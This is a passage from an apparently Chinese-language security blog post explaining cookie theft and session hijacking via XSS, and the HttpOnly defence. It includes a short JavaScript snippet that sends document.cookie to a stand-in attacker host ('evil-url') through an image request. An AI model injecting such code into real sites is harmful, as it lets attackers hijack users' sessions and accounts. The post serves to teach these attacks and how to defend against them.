 cookie也可以用于追踪用户行为，例如是否访问过本站点，有过哪些操作等。

## 四、cookie窃取和session劫持

本文就cookie的三种用途中session管理的安全问题进行展开。

既然cookie用于维持会话，如果这个cookie被攻击者窃取会发生什么？session被劫持！

攻击者劫持会话就等于合法登录了你的账户，可以浏览大部分用户资源。

![](/assets/img/post_session_hijacking.jpg)

### 最基本的cookie窃取方式：xss漏洞

__攻击__

一旦站点中存在可利用的xss漏洞，攻击者可直接利用注入的js脚本获取cookie，进而通过异步请求把标识session id的cookie上报给攻击者。

    var img = document.createElement('img');
    img.src = 'http://evil-url?c=' + encodeURIComponent(document.cookie);
    document.getElementsByTagName('body')[0].appendChild(img);
    
如何寻找XSS漏洞是另外一个话题了，自行google之。
    
__防御__

根据上面`HttpOnly cookie`的介绍，一旦一个cookie被设置为`HttpOnly`，js脚本就无法再获取到，而网络传输时依然会带上。也就是说依然可以依靠这个cookie进行session维持，但客户端js对其不可见。那么即使存在xss漏洞也无法简单的利用其进行session劫持攻击了。

但是上面说的是无法利用xss进行简单的攻击，但是也不是没有办法的。既然无法使用`document.cookie`获取到，可以转而通过其他的方式。下面介绍两种xss结合其他漏洞的攻击方式。

